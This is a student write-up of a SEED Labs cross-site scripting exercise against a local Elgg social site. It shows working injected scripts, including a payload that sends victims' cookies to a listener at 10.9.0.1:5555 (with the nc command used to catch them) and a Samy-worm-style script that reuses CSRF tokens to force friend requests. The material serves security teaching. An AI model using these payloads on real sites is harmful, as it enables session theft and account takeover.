 # Work on week #10

## Task 1

* In this first task we want to post a malicious message to display an alert window.

* Firstly, we logged in the server as Alice and looked for and editable field for html. Fortunately, the section "About me" allows to do that in the "Edit Profile" page:

![](https://i.imgur.com/AJ39lK2.png)

* Then, we injected the code given in this field:

![](https://i.imgur.com/EufKsqC.png)

* We logged in with other user, in this case as admin, and searched for the Alice's profile page.

![](https://i.imgur.com/36FNRIZ.png)

* When we clicked on her profile an alert window with the message we wrote, which means that our attack was successful:

![](https://i.imgur.com/VePYOAS.png)

## Task 2

 * In task 2 is very similiar to task 1. The only difference is in this task the message is gonna appear like cookie.

 * To do this we have to put this code in about me in our profile (in this case, Alice's profile) and we check with samy's profile alice account and we can saw the message.
 
 ```javascript=
<script>alert(document.cookie);</script>
```
![](https://i.imgur.com/s6qmdss.png)

![](https://i.imgur.com/selmx4P.png)



* The attack is done.


## Task 3

* Our goal on this task 3 is stealing cookies from the victim’s machine. In order to do this, we have to change the "About me" section in our profile (in this case, Alice's profile) for:

```javascript=
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’   >’);
</script>
```

![](https://i.imgur.com/2U6zjtT.png)



* After that we have to use our terminal and run command: **$ nc -lknv 5555** for allow us to see what we are able to steal. The terminal is gonna print out whatever is sent by the client and sends to it everything typed by the user.

![](https://i.imgur.com/Dt1XB8P.png)


* The attack is done.



## Task 4

* In this task, we tried to recreate the famous "Samy Worm" attack that occured in 2005 on MySpace. Firstly, we need to understand how to add a friend in this website. To do so, and thanks to the HTTP tool of Mozila Firefox, we analyse what it is sent when we add someone as a friend. for this, we used the victim's profile:

![](https://i.imgur.com/EXjLta4.png)


* As we can see, this GET method needs to send ID of the user to be added as a friend, the security token (elgg_ts) and another token, the elgg_token.

* So, if we want to make the attack, we need to write a malicious JavaScript script in the Samy's profile, more specifically, in his "About Me" section, with the option "Edit HTML" enabled.

* This is the malicous script to be written to:

> Javascript script:

```javascript=
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670502594&__elgg_token=9G_lgRjZAewSEpzeJGa2KA&__elgg_ts=1670502594&__elgg_token=9G_lgRjZAewSEpzeJGa2KA"+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

* This script will just make the request instead of "Add friend" button. It is already sending all the tokens needed. Also, it is sending the URL that is sent after the adding friend action occurs, using the Samy's ID (which is 59), with the parameters mentioned before filled correctly.

* And we successfully added on his profile. It is important to note that the section does not change visually, which means the Samy's profiles seems a normal one.

![](https://i.imgur.com/CAhX3S9.png)


* After that, we logged in as the victim and searched for the Samy's profile:

![](https://i.imgur.com/eLBSDJX.png)


* And without clicking in the "Add friend" button, we noticed that victim was already a friend, meaning that the attack was successful:

![](https://i.imgur.com/f3gDP7c.png)

* Finally, we have to answer some questions:

* Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?

* Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

* Answers:

* Question 1: These 2 lines are important to create the security tokens and session tokens needed to be sent in the URL of "Add friend action". These tokens are used for security purposes and are generated in the moment that the page is loaded, which means that are not constant values. However, if we use these commands, we can get the correct tokens succesfully.

* Question 2: In the described situation, we could not launch a successful attack, because we wouldn't alter the HTML, so no actions and no GET method would occur. And there is not any other field in the user profile where we could alter the HTML. Also, we tried to recreate the attack in the conditions mentioned in the question and the attack failed as predicted:

![](https://i.imgur.com/Tg109n3.png)
